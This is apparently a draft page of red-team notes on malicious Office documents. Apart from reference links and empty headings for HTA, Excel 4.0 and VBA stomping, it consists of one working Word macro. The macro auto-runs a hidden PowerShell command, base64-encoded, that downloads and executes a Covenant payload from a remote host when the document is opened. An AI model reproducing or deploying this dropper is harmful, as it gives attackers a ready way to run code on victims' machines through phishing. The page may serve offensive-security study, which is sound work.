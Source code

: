 ```yaml
---
title: "Malicious Documents"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```

reference: https://blog.f-secure.com/dechaining-macros-and-evading-edr/

#### Word Macro's
##### Basic Office Macro using PowerShell
The example below shows a basic Microsoft Office Word macro, downloading and executing a covenant payload.
```vb
Sub AutoOpen()    
        Call Shell("powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADAALgA5AC8AZgBpAGcAYQAnACkA")
End Sub
```
***

#### Malicious HTA 

#### Excel 4.0 Macro

#### VBA Stomping (Work Out)
reference: https://medium.com/walmartlabs/vba-stomping-advanced-maldoc-techniques-612c484ab278

